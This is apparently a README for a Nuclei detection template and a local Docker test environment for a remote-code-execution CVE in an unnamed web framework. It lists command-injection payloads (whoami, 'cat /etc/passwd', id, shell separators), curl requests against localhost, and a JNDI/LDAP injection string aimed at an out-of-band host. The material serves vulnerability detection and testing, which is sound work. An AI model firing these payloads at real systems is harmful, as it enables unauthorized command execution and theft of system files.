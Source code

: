 # CVE-2024-12963 Test Environment

## Overview

This directory contains the Nuclei template and test environment for CVE-2024-12963 - Web Application Framework < 2.1.0 Remote Code Execution vulnerability.

## Quick Start

### 1. Build and Run Vulnerable Environment

```bash
# Build the vulnerable Docker image
docker build -t cve-2024-12963-test .

# Run the vulnerable application
docker run -p 8080:8080 cve-2024-12963-test
```

### 2. Test with Nuclei

```bash
# Basic test
nuclei -u http://127.0.0.1:8080 -t http/cves/2024/CVE-2024-12963.yaml

# Test with debug output
nuclei -u http://127.0.0.1:8080 -t http/cves/2024/CVE-2024-12963.yaml --debug -vv

# Test with verbose output
nuclei -u http://127.0.0.1:8080 -t http/cves/2024/CVE-2024-12963.yaml -v -debug
```

## Manual Testing

### 1. Check Application Status

```bash
# Check if application is running
curl -I http://127.0.0.1:8080/

# Get version information
curl http://127.0.0.1:8080/version
```

### 2. Test Command Injection

```bash
# Test whoami command
curl -X POST http://127.0.0.1:8080/api/process \
  -H "Content-Type: application/json" \
  -d '{"action":"execute","data":"whoami","format":"shell"}'

# Test file reading
curl -X POST http://127.0.0.1:8080/api/process \
  -H "Content-Type: application/json" \
  -d '{"action":"execute","data":"cat /etc/passwd","format":"shell"}'

# Test system information
curl -X POST http://127.0.0.1:8080/api/process \
  -H "Content-Type: application/json" \
  -d '{"action":"execute","data":"id","format":"shell"}'
```

## Expected Results

### Vulnerable Systems (v1.9.5)
- HTTP 200 status codes with command output
- JSON responses containing command execution results
- System information like "root:", "uid=", "gid=" in response body
- "Command executed successfully" messages

### Non-Vulnerable Systems (≥2.1.0)
- HTTP 400/401/403 status codes
- Error messages about invalid requests
- No command execution output
- Application continues running normally

## Template Features

### Multi-Payload Detection
- **whoami command**: `|whoami`, `||whoami`, `&&whoami`
- **File reading**: `';cat /etc/passwd;'`, `;cat /etc/passwd`
- **System info**: `` `id` ``, `$(whoami)`
- **JNDI injection**: `${jndi:ldap://{{interactsh-url}}/a}`

### Detection Methods
- **Response Analysis**: Detects command execution output
- **Pattern Matching**: Looks for system information in responses
- **Out-of-Band Detection**: Uses interactsh for JNDI injection validation
- **Version Extraction**: Extracts version information to verify vulnerability

### Matchers
- `contains(body, "root:")` - Detects /etc/passwd content
- `contains(body, "uid=")` - Detects system user information
- `regex: "uid=[0-9]+"` - Regex for user ID patterns
- `status: 200` - Confirms successful execution

## Safety Considerations

⚠️ **WARNING**: This template is designed to trigger command execution and may:
- Execute system commands on the target
- Access sensitive system information
- Modify system files or configurations
- Generate security alerts

**Only test against authorized systems in controlled environments.**

## Troubleshooting

### Common Issues

1. **Template not detecting vulnerability**
   - Verify web framework is actually running on port 8080
   - Check if version is vulnerable (< 2.1.0)
   - Ensure proper network connectivity

2. **False positives**
   - Verify version is actually vulnerable
   - Check application logs for command execution
   - Monitor system processes during testing

3. **Application not responding**
   - Check if command execution caused issues
   - Verify application restart capability
   - Check system logs for errors

### Debug Commands

```bash
# Check application status
ps aux | grep python
netstat -tlnp | grep 8080

# View application logs
docker logs <container_id>

# Monitor system resources
htop
dmesg | tail -20
```

## Files

- `CVE-2024-12963.yaml` - Nuclei template
- `Dockerfile` - Vulnerable test environment
- `test-cve-2024-12963.sh` - Linux/macOS test script
- `test-cve-2024-12963.bat` - Windows test script
- `CVE-2024-12963-test-env.md` - Detailed test environment setup
- `README-CVE-2024-12963.md` - Comprehensive documentation

## References

- **CVE Details**: https://nvd.nist.gov/vuln/detail/CVE-2024-12963
- **MITRE CVE**: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-12963
- **Nuclei Documentation**: https://nuclei.projectdiscovery.io/

---

**Note**: This template is designed for security research and authorized testing only. Always obtain proper authorization before testing against any systems.

